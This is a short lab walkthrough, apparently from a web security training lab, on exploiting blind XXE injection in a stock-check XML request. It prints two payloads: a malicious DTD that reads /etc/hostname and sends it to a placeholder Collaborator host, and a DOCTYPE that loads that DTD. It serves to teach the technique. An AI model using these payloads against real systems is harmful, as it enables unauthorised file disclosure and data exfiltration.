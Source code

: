 *This information is only for the purposes of education and skills development.*

**Objective**
Exfiltrate contents of /etc/hostname file in Collaborator using malicious DTD or Document Type Definition file. 

**Blind XXE**
- XML External Entity Injection or XXE injection vulnerability allows attacker to interfere with an application's processing of external data that is in XML format. 
- Document Type Definition or DTD file defines rules for XML documents.
- In blind XXE, no values associated with external entities are returned in response.

**Point of Entry**
- On any product page, the *Check Stock* function issues a POST request.
- This request is our point of entry because it includes stockCheck element which handles XML data.

**Barrier to entry** 
- As no XML is present in response, XML parsing is considered out-of-band meaning that a separate channel of communication is in use.

**Bypassing Barrier to Entry**
- Out-of-band communication can be viewed using Collaborator. 
- Our XML based Collaborator template payload number one will be hosted on exploit server as a DTD file. 
- View exploit and copy page URL as this is the DTD URL.
- Start intercept and check stock to issue related POST request. Between XML declaration and `stockCheck` element, add payload number two including the DTD URL. Forward request.
- Collaborator will show a HTTP request containing the contents of the `/etc/hostname` file.

**Template Payload**
1. `<!ENTITY % file SYSTEM "file:///etc/hostname"> <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>"> %eval; %exfil;`
2. `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
`

`


